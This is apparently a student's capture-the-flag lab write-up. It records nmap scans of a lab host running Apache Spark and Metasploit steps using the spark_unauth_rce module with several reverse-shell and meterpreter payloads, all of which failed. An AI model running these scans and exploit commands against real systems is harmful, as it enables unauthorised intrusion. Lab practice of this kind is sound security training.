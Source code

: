 # Metasploit

Start 15:23


## Finding out about target

**Info**
c80e8a25-461a-4806-aff6-72ae677f72e4.rdocker.vuln.land
ip: 152.96.15.17 -> started twice later ip is 	152.96.15.8 (might be mixecd up)
port 8081

	152.96.15.8

**Find services**
- `nmap -sV -PN -n 152.96.15.8`
   - Pn: skip host discoversy, n: disable dns resolution
   - sV: Service detection
Result: 
Nmap scan report for 152.96.15.17
Host is up (0.0040s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6123/tcp open  spark            Apache Spark
8081/tcp open  blackice-icecap?



run with default scripts `nmap -sC -PN -n 152.96.15.8` (resul not as relevant)
PORT     STATE SERVICE
8081/tcp open  blackice-icecap


## Metasploit 
- `msfconsole` start metasploit
- `search spark`  (remark search for blackice-icecap didnt return any values)
    - 4 results
- `use exploit/linux/http/spark_unauth_rce` i choose first because a) excellent b) rank 0 c) seems to do what I want
    - `options` to see options that has to be configured: RHOST, RPORT
    - `show payloads` -> varios options
- Configre options
    - `set RHOSTS 152.96.15.8`
    - `set RPORT 6123`
- Configure and exploit with payloads
    - Tried multiple payloads
    - `set PAYLOAD payload/generic/shell_bind_aws_ssm` > failed
    - `set PAYLOAD payload/generic/shell_bind_tcp` > failed
    - `set PAYLOAD payload/generic/shell_reverse_tcp` > failed
    - `set PAYLOAD payload/java/jsp_shell_reverse_tcp ` > failed
    - `set PAYLOAD payload/multi/meterpreter/reverse_http` > failed
    - `set PAYLOAD payload/java/shell_reverse_tcp` > failed
    -> run exploit `exploit`

all failed :-(
*Remark: I think reverse shell would have been the most promising but also didnt work (VNP etc. was running)*

Next step would have been to use the shell (which would have been the result of the exploit) and then to get the flag via `cat /flag/flag.txt`

I could try other metasploit attacks as well (or this one with different config)